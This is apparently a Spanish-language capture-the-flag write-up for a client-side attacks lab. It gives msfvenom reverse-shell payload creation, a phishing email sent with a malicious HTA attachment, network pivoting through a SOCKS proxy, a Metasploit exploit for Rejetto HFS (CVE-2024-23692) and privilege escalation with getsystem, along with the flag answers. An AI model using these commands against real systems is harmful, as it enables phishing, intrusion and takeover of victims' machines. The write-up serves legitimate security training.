







# Client-Side Attacks CTF 1

<p align="center"> 

</p>

**IP**

10.10.41.2 --> Mi ip Atacante <br>
10.2.20.167 --> fintech.com <br>
10.2.23.53 --> mail.server.local <br>
10.2.31.5 --> web.prod.local <br>

Estas ip sabemos de su existencia porque en el fichero **/etc/host** se encontraba ya escrita ahí

## Task 1: Identify an exposed internal email address on fintech.com

The **fintech.com** website is exposing an internal email address. Locate the first flag at the location where the email address is publicly available.

```
nikto -h http://fintech.com
```

<p align="center"> 

</p>

Nos ayuda a encontrar el archivo **/.env** Normalmente este archivo que este expuesto es una vulnerabilidad crítica porque estas expuesta las credenciales.

Si la visitamos nos encontraremos la primera flag.

<p align="center"> 

</p>

answer: **5aeab4dd99734ac1b235ffbde093c830**

## Task 2: Obtain a reverse shell on victim-machine using an email attachment

Craft and send a phishing email with a malicious attachment. Wait for the victim to execute the payload and establish a reverse shell. Locate the second flag on the Administrator’s desktop.

___

En primer creamos un payload con **msfvenom**, lo usaremos para tomar el control de la maquina objetivo

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.41.2 LPORT=9999 -f hta-psh -o shell.hta
```

Una vez creado nos iremos a metasploit y realizaremos lo siguiente:

```
msfconsole -q  
use exploit/multi/handler  
set payload windows/meterpreter/reverse_tcp  
set LHOST 10.10.41.2  
set LPORT 9999  
run
```

Esto lo que hará es preparar el puerto de escucha.

Luego en nuestra kali nos descargamos la herramienta **sendemail** con el objetivo de mandar un phishing al administrador del servicio el **shell.hta**, el correo nos lo encontraremos en la actividad anterior en el **.env**

```
sudo apt install sendemail -y
sendemail -f test@test.com -t techsupport@staff.fincorp.com -a shell.hta -u "You have a message" -m "Please, run this to get 100$" -s mail.server.local:25
```

<p align="center"> 

</p>

Luego haremos lo siguiente para obtener la flag

```
cd "C:\\Users\\Administrator\\Desktop"
shell
powershell
type flag2.txt
```

<p align="center"> 

</p>

answer: **d93d115b37e5432a9897d70108131984**

## Task 3: Exploit a vulnerable file server on web.prod.local

A vulnerable file server is running on **web.prod.local**, which is not directly accessible from Kali. Use your foothold to exploit this system and locate the third flag in the C drive.

___

En metasploit, con la sesión de meterpreter iniciado anteriormente realizamos el siguiente comando:

```
run autoroute -s 10.2.23.0/20
```

Al final ponemos /20 con el objetivo de que capture mas ip.

<p align="center"> 

</p>

```
background
use auxilary/server/socks_proxy
set VERSION 4a
set SRVPORT 9050
run
```

> Al ejecutar el `socks_proxy`, estás abriendo una puerta en **tu propia máquina** (en el puerto 9050) que conecta directamente con la red interna de la víctima a través de la sesión que dejaste en el `background`.

<p align="center"> 

</p>

Luego, para visualizar el dominio **`http://web.prod.local/`** nos iremos a **settings - proxy**

<p align="center"> 

</p>

Y visualizamos la pagina.

<p align="center"> 

</p>

Ahora para escanear que puerto tiene abierto este dominio haremos lo siguiente:

```
proxychains nmap -sT -F web.prod.local -Pn
```

<p align="center"> 

</p>

Los puertos abiertos son: 135, 3389, 139, 445, 80

A continuación, vamos a analizar el puerto 80

```
proxychains nmap -sT -p 80 -sV web.prod.local -Pn
```

<p align="center"> 

</p>

Resulta que la version **HttpFileServer httpd 2.3m** de la pagina es vulnerable, para explotarlo con metasploit haremos lo siguiente:

```
use exploit/windows/http/rejetto_hfs_rce_cve_2024_23692
set RHOSTS web.prod.local
set PAYLOAD cmd/windows/http/x64/meterpreter/bind_tcp
set FETCH_SRVHOST 10.2.23.53
run
```

<p align="center"> 

</p>

Unas vez dentro:

```
shell
powershell
cd \
type flag.txt
```

answer: **24df3e60a0ec4d88a7ad7b9a8c126988**

## Task 4: Escalate privileges on web.prod.local

Gain higher privileges on the **web.prod.local machine**. Locate the fourth flag in a privileged location, specifically on the Administrator’s desktop.

___

Luego, continuado con la sesión anterior, realizamos el siguiente comando para tener los permisos maximo y obtenemos la última flag4.txt

```
getsystem
type users\Administrator\Desktop\flag4.txt
```

answer: **7bb6a16193d6416ab46a92d00a28321b**